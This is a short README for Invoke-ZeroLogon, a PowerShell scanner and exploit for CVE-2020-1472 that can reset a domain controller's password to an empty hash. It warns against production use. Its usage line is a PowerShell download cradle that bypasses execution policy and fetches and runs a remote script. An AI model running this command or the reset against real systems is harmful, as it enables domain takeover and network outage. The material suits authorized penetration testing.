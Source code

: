 # Invoke-ZeroLogon
This code was heavily adapted from the C# implementation by the [NCC Group's Full Spectrum Attack Simulation team](https://github.com/nccgroup/nccfsas/tree/main/Tools/SharpZeroLogon) and the original CVE published by [Secura](https://www.secura.com/blog/zero-logon).
This script can be run in two modes: 
1.	When the reset parameter is set to True, the script will attempt to reset the target computer’s password to the default NTLM hash (essentially an empty password).
2.	By default, reset is set to False and will simply scan if the target computer is vulnerable to the ZeroLogon exploit (CVE-2020-1472).

__WARNING:__ Resetting the password of a Domain Controller is likely to break the network. __DO NOT__ use the reset parameter against a production system unless you fully understand the risks and have explicit permission.


Basic - 

powershell.exe –exec bypass –C “IEX(New-Object Net.WebClient).DownloadString(’https://raw.githubusercontent.com/sp00ks-git/Invoke-ZeroLogon/master/Invoke-ZeroLogon.ps1’)”



